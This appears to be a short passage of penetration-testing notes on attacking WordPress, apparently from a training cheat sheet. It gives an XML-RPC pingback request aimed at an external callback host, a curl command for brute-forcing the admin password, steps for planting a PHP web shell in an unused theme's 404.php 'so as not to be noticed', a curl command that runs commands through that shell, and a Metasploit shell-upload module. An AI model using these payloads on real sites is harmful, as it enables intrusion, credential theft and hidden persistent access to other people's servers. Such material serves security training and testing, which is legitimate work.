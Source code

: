 
The following represents an simple example request using the Burpsuite Collaborator provided URL as callback:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 303

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://pdaskjdasas23fselrkfdsf.oastify.com/1562017983221-4377199190203</string></value>
</param>
<param>
<value><string>https://example.com/</string></value>
</param>
</params>
</methodCall>
```


```bash
# Brute force with curl
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

# If the credentials are not valid, we will receive a 403 faultCode error.
```



## RCE attack on wordpress

Once you have credentials for user admin, access the admin panel and introduce a web shell. Where? Appearance > Theme editor. Choose a theme not in use and edit 404.php to add the shell. This is a quiet way not to be noticed.

At the end of the file, you can add:

```php
system($_GET['cmd']);
```

**Exploitation**:

```bash
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

## Metasploit modules

```msf
use exploit/unix/webapp/wp_admin_shell_upload
```
